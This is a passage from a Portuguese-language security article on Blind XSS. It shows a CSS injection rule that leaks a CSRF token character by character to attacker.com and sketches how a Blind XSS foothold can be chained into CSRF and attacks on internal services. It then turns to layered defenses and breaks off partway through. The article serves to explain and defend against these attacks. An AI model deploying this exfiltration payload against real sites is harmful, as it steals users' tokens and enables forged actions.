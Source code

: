 ```css
input[name="csrf_token"][value^="a"] { background-image: url(//attacker.com/leak?a); }
```

Ao injetar uma regra para cada caractere possível e observar qual URL é acessada em seu servidor, o atacante pode vazar o valor do *token*, caractere por caractere, de forma lenta mas eficaz.

### Chaining with Other Vulnerabilities

O *Blind XSS* serve como um excelente ponto de pivô para encadear outras vulnerabilidades.

**CSRF against Internal Services**: Com um *script* sendo executado no navegador do administrador, o atacante pode forjar requisições para outras aplicações internas às quais o administrador tem acesso. Se essas aplicações internas não tiverem proteção contra *Cross-Site Request Forgery* (CSRF), o atacante pode realizar ações como criar novos usuários administradores, alterar configurações críticas do sistema ou desativar controles de segurança.

**Exploiting Internal-Only Vulnerabilities**: A rede interna de uma organização geralmente tem uma postura de segurança menos rígida do que seu perímetro externo. Serviços podem estar desatualizados, ter senhas padrão ou conter vulnerabilidades conhecidas. O atacante pode usar o navegador comprometido para escanear e atacar esses serviços que, de outra forma, seriam inacessíveis do exterior.

A avaliação do impacto de uma vulnerabilidade de *Blind XSS* não deve ser baseada no ponto de injeção inicial, mas sim no nível de privilégio do ambiente onde o *payload* é executado. Uma injeção em um campo de baixo risco, como um formulário de "fale conosco" em um *site* público, pode se transformar em uma vulnerabilidade de severidade crítica se o *payload* for executado no contexto de uma ferramenta de revisão de *logs* usada por um administrador de domínio. A severidade da falha é, portanto, uma função dos privilégios da vítima, não do nível de acesso inicial do atacante. Esta distinção é crucial e eleva o *Blind XSS* a uma das formas mais perigosas de *Cross-Site Scripting*.

## VI. A Multi-Layered Defense Strategy

A defesa eficaz contra o *Blind XSS* não depende de uma única solução mágica, mas sim da implementação de uma estratégia de defesa em profundidade (*defense-in-depth*). Esta abordagem em camadas garante que, se uma linha de defesa falhar, outras estarão em vigor para prevenir ou mitigar o ataque. As seguintes medidas, baseadas nas melhores práticas da OWASP e em controles de segurança modernos, são essenciais.

### Input Validation and Sanitization

A primeira linha de defesa é sempre validar e sanitizar toda e qualquer entrada do usuário no ponto em que ela entra na aplicação.

**Principle**: O princípio fundamental é nunca confiar na entrada do usuário. Todos os dados provenientes de fontes não confiáveis, independentemente de seu destino final, devem ser rigorosamente validados. Isso deve ser feito usando uma abordagem de "lista de permissões" (*whitelist*), que define os caracteres e formatos permitidos, em vez de uma "lista de bloqueios" (*blacklist*), que tenta prever todas as possíveis entradas maliciosas.

**Application**: A validação deve ser aplicada a todos os vetores de injeção potenciais. Isso inclui não apenas campos de formulário e parâmetros de URL, mas também, e de forma crucial, cabeçalhos HTTP como *User-Agent* e *Referer*, que são frequentemente negligenciados, mas são vetores primários para ataques de *Blind XSS* direcionados a sistemas de *log*.

### Contextual Output Encoding
